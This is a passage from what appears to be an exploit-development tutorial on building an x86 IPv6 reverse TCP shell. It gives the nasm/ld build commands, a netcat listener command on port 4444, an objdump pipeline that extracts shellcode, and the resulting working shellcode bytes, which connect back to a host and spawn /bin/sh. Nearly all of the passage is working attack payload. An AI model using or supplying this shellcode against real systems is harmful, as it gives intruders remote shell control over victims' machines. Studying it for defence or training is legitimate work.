 ```
==> nasm -f elf32 -o shell_reverse_tcp_ipv6.o shell_reverse_tcp_ipv6.asm
==> ld -o shell_reverse_tcp_ipv6 shell_reverse_tcp_ipv6.o
==> ./shell_reverse_tcp_ipv6

//Listener on IPv6 socket
==> nc -6 -l -v -p 4444
```

![Shell_Reverse_TCP for IPV6](/media/2-tcp-rev-shell-2.jpg)

___

___
### EXTRACTING THE SHELLCODE:
```
objdump -d shell_reverse_tcp_ipv6.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x68\xc0\xa8\x01\x05\x66\x6a\xff\x50\x50\x66\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

```

___
